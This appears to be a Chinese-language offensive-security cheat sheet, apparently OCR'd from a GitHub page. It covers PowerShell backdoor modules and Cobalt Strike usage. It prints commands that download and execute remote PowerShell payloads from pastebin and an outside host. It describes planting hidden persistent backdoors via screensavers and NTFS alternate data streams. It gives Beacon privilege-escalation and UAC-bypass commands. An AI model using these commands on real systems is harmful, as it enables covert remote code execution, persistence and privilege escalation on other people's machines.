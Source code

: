 - HTTP-Backdoor脚本

```
可以下载和执行powershell脚本，接收第三方网站的执行，内存执行PowerShell脚本
```
```
CheckURL 给出一个URL地址，如果存在我们MagicString中的值就去执行Payload - 下载运行我们的脚本
PayloadURL 这个参数给出我们需要下载的Powershell脚本的地址
Arguments 这个参数指定我们要执行的函数
StopString 这个参数也会去看是否存在我们CheckURL返回的字符串，如果存在就会停止执行

PS > HTTP-Backdoor -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -Arguments Get-Information -MagicString start123 -StopString stopthis
```

- Add-ScrnSaveBackdoor

```
可以帮助攻击者利用windows屏幕保护来安插一个隐藏后门
```
- Execute-OnTime

```
用于在目标机器上指定powershell 脚本的执行时间
```
- Invoke-ADSBackdoor

```
能够在NTFS数据流中留下一个永久性的后门,只有dir /a /r 才可以看到。

Invoke-ADSBackdoor -PayloadURL http://a.com/test.ps1
```

## Cobalt Strike
- 功能

```
 agscript 拓展应用脚本
 c2lint 用于检查profile错误和异常
 teamserver 团队服务器程序
 cobaltsteike.jar 客户端
 logs 日志
 update.jar 更新
 data 保存当前teamserver 一些数据
```

### Cs模块

#### Cobalt strike模块

#### 后渗透模块

- 使用Elevate模块提升Beacon权限

```
右键->Acceess->Elevate

内置三个模块
（1）ms14-058 普通用户->sustem权限
（2）uac-dll bypassuac
（3）uac-token-duplication bypassuac

elevate uac-dll test
elevate uac-token-duplication test 
```
